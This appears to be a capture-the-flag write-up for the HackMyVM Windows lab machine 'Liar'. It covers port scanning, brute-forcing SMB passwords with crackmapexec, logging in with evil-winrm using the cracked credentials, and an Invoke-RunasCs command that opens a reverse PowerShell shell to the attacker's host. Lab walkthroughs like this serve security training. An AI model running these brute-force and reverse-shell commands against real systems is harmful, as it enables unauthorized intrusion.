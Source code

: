 ```yaml
---
date: 2024-09-21
categories: [Windows, Easy]
---
```


![liar](https://github.com/user-attachments/assets/239fa3ab-3325-4dc4-987d-d3a5944965c7)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [sml](https://hackmyvm.eu/profile/?user=sml)         | [HackMyVm](https://hackmyvm.eu)     | Easy           | Windows   |

---






- I start with a scan of the open ports,
  
  ```bash
  nmap -p- --open -vvv -sS --min-rate 5000 -Pn -oG scan 192.168.56.103
  ```
  
  ![image](https://github.com/user-attachments/assets/2dba8e0f-c4ec-4186-86a1-ab41e69d984e)
  

- Scanning open ports.
  
  ```bash
  nmap -p80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 -sCV 192.168.56.103 -oN ports
  ```

  ![image 1](https://github.com/user-attachments/assets/0a3ae56b-0911-4f03-8059-bdd2076cd5cd)


- I access to the website.
    
    ![image 2](https://github.com/user-attachments/assets/3ed8b160-8ef0-4c87-b6c6-123b6813e497)

    

- I discover a potential user, I try to brute force his password with crackmapexec through the smb service.
    
    ```bash
    crackmapexec smb 192.168.56.103 -u nica -p /usr/share/wordlists/rockyou.txt --local-auth
    ```
    
    ![image 3](https://github.com/user-attachments/assets/f27b0754-5734-4c05-ac9a-7fb937a88eea)

    

- I log in as a `nica` with evil-winrm
    
    ```bash
    evil-winrm -i 192.168.56.103 -u nica -p hardcore
    ```
    
    ![image 4](https://github.com/user-attachments/assets/ef4a06dd-877c-4ba3-821c-f4dbfeb5ba56)

    

- I find the first flag and find another potential user.
    
    ![image 5](https://github.com/user-attachments/assets/6b52f2cf-0c2d-4cb6-89c8-eeaad90cffe7)

    

- I discover a potential user, I try to brute force his password with crackmapexec through the smb service.
    
    ```bash
    crackmapexec smb 192.168.56.103 -u akanksha -p /usr/share/wordlists/rockyou.txt --local-auth
    ```
    
    ![image 6](https://github.com/user-attachments/assets/a140aa05-3eef-4ad9-baf3-2a2101748994)

    

- I try to connect as `akanksha` with evil-winrm but it does not allow me to connect.
    
    ```bash
    evil-winrm -i 192.168.56.103 -u akanksha -p sweetgirl
    ```
    
    ![image 7](https://github.com/user-attachments/assets/e06d87f1-e379-4db1-83f1-942fb8e265a1)

    

- As it does not allow us to log in as `akanksha`, we can try to run commands as that user and create a revershell. For that we can use Runas.
    [RunasCs](https://github.com/antonioCoco/RunasCs)
    
    ![image 8](https://github.com/user-attachments/assets/2e1c807d-9fb0-49cc-b93a-03c192a5f7b9)

    

- We import the module and run the revershell as `akanksha` to my machine.
    
    ```bash
    Import-module ./Invoke-RunasCs.ps1
    Invoke-RunasCs akanksha sweetgirl powershell -Remote 192.168.56.1:4444
    ```
    
    ![image 9](https://github.com/user-attachments/assets/5ed766dd-5e31-43fd-8b18-dafbbc356f77)

    

- This user has permissions to view the root flag.
    
    ![image 10](https://github.com/user-attachments/assets/3c13a465-57ae-4d28-8afc-31573f3f102a)
